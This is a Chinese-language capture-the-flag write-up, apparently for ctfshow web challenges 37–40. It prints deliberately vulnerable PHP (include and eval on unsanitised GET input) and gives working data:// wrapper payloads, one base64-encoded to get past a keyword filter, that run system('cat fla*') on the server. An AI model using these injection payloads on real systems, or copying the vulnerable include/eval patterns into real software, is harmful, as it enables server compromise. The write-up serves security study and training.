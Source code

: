 ```yaml
---
layout: post
title:  "[命令执行]web37-39"
date:   2020-01-10 23:00:00 +0800
categories: ctfshow
---
```


### Web37

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag/i", $c)){
    include($c);
    echo $flag;

  }
    
}else{
  highlight_file(__FILE__);
}
```

与前面的相比，这次直接换掉了`eval()`函数，变成了`include`

用伪协议写入数据流，读取flag

[参考文章](https://segmentfault.com/a/1190000018991087)

```
payload:?c=data://text/plain,<?php system("cat fla*")?>
```

### Web38

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|php|file/i", $c)){
    include($c);
    echo $flag;

  }
    
}else{
  highlight_file(__FILE__);
}
```

ban掉了`file`和`php`，直接用base64绕过去就行

```
payload:?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhKiIpPz4=
```

这里应该使用php的`base64_encode($str)`函数加密一下字符串，否则不匹配

### Web39

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag/i", $c)){
    include($c.".php");
  }
    
}else{
  highlight_file(__FILE__);
}
```

增加了后缀的限制，回在最后传入的时候添加`.php`后缀，限制了传入，但是并不严谨，因为前面的语句已经执行完毕。

`payload:?c=data://text/plain,<?php system("cat fla*")?>`

### Web40

```php
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
    eval($c);
  }
    
}else{
  highlight_file(__FILE__);
}
```

啊不行了，明天看师傅们的wp吧，鸽了

